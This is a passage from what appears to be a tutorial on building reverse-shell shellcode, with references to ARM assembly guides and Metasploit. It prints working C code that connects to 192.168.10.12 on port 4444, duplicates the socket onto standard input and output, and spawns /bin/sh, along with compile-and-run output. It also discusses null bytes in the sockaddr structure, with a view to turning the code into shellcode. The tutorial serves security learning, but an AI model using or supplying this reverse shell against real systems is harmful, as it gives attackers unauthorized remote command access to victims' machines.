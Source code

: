         memset(&sa, 0xff, sizeof(sa));

        sa.sin_family = AF_INET;
        sa.sin_port = htons(4444);
        sa.sin_addr.s_addr = inet_addr("192.168.10.12");

        connect(fd, (struct sockaddr *)&sa, sizeof(sa));

        printf("sizeof(sa) = %d\n", sizeof(sa));

        unsigned char *p = (unsigned char *)&sa;

        for (int i = 0; i < sizeof(sa); i++)
            printf(" %02x", p[i]);

        printf("\n");

        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2);

        execve("/bin/sh", 0, 0);

        return 0;
    }

    $ gcc main.c -o rshell
    $ ./rshell
    sizeof(sa) = 16
     02 00 11 5c c0 a8 0a 0c ff ff ff ff ff ff ff ff

Note that

    AF_INET = 2
    SOCK_STREAM = 0
    4444 = 0x115c
    192.168.10.12 => c0:a8:0a:0c

This is the data in the first 8 bytes of the sa struct.

There is one **0x00** in the second byte that will have to be dealt similar to the NULL byte at the end of a string.

More interesting is that the last 8 bytes of the struct are not used. It's not immediately obvious, but the fact that in the first example we did not initialize the struct and in the second case we initialized with **0xff** and it worked both times is a clue.

Instead of a **struct sockaddr_in**, we could just have a byte buffer like this

    #include <unistd.h>
    #include <sys/socket.h>

    int main()
    {
        unsigned char sa[16] = {
            0x02, 0x00, 0x11, 0x5c, 0xc0, 0xa8, 0x0a, 0x0c,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };

        int fd = socket(AF_INET, SOCK_STREAM, 0);


[azeria-bind-shell]: https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/
[azeria-reverse-shell]: https://azeria-labs.com/tcp-reverse-shell-in-assembly-arm-32-bit/
[ms-reverse-shell]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit
[mov-immed-arm]: http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0473e/Chdfgchf.html
